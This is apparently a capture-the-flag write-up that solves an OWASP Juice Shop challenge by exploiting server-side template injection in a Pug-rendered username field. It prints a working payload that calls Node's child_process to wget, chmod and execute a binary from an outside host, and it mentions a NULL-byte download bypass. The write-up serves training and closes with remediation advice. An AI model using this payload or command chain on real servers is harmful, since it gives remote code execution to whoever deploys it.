 # Juice-Shop Write-up: Server-Side Template Injection (SSTi)

## Challenge Overview
**Title:** SSTi  
**Category:** Server-Side Template Injection (SSTi)  
**Difficulty:** ⭐⭐⭐⭐⭐⭐ (6/6)  

The objective of this challenge is to exploit a Server-Side Template Injection (SSTi) vulnerability to "infect" the server with a specially crafted malware.

## Tools Used
- **Web Browser:** For navigating the Juice Shop application.
- **Developer Tools:** To inspect and manipulate HTML and JavaScript code.
- **Command Line Tools:** For downloading and executing the malware on the server.

## Methodology and Solution

### Step 1: Understanding the Challenge
The challenge hints provide important information:
- **No Reverse Engineering Required:** The focus is on exploiting SSTi without needing to analyze the malware.
- **Finding the Malware:** The malware can be found via a Google search for "juicy malware" or by accessing the Juice Shop's FTP quarantine folder.

### Step 2: Locating the Malware
1. **Google Search:** Searching "juicy malware" on Google leads to the following GitHub repository:
   - [Juicy Malware on GitHub](https://github.com/juice-shop/juicy-malware)
2. **FTP Quarantine Folder:** Alternatively, navigate to `127.0.0.1:3000/#/ftp/quarantine` and download the malware using the NULL byte technique (add %2500.md after the URL, refet to previous challenges if needed).

### Step 3: Preparing the Malware Execution Command

Since Juice Shop is running on my local machine (a Linux system), the goal is to download and execute the malware on this serve. Here is the command that we want the server to execute : 

- **Command to execute:** 
  ```bash
  wget -O malware https://github.com/J12934/juicy-malware/blob/master/juicy_malware_linux_64?raw=true && chmod +x malware && ./malware
  ```

This command downloads the malware, makes it executable, and then runs it.

### Step 4: Identifying the SSTi Vulnerability
After inspecting various parts of the application looking for a page that use template, notably the GitHub page of Juice Shop, the profile page was found to use Pug (formerly Jade) template. Alternatively, you can also try basic template injection in every inputs to find the page that we must exploit.
- **Pug JS:** It's a templating engine that uses variables like `#{variable}` to render dynamic content.

![github home page](../assets/difficulty6/ssti_4.png)

### Step 5: Testing for SSTi
1. **Injecting Simple Expression:** In the username input field, enter `#{1 + 1}` and click "Set Username".
   - **Result:** The username is set to `2`, confirming SSTi vulnerability.

   ![Basic example](../assets/difficulty6/ssti_1.png)

2. **Injecting Dynamix Expression:** Also in the username inpt field, we try more complex payload that involve a command execution : 

   ![whoiam command test](../assets/difficulty6/ssti_2.png)

### Step 6: Crafting the Payload
To execute the malware, we inject a payload that uses the Node.js `child_process` module to execute system commands:
- **Payload:**
  ```pug
  #{global.process.mainModule.require('child_process').exec('wget -O malware https://github.com/J12934/juicy-malware/blob/master/juicy_malware_linux_amd_64?raw=true && chmod +x malware && ./malware')}
  ```

### Step 7: Executing the Payload
1. **Enter Payload:** Input the payload into the username field and submit.

![payload test](../assets/difficulty6/ssti_3.png)

2. **Verification:** The command should execute, downloading and running the malware on the server.

## Solution Explanation
The challenge was solved by exploiting an SSTi vulnerability in the Pug templating engine. By injecting a payload that executes system commands via the Node.js `child_process` module, we were able to download and run the malware, demonstrating the vulnerability.

## Remediation
- **Input Validation and Sanitization:** Ensure all user inputs are properly validated and sanitized to prevent injection attacks.
- **Template Engine Security:** Use safe templating practices and avoid rendering untrusted input within templates.
- **Limit Server Permissions:** Restrict the server's ability to execute system commands and download files from external sources.

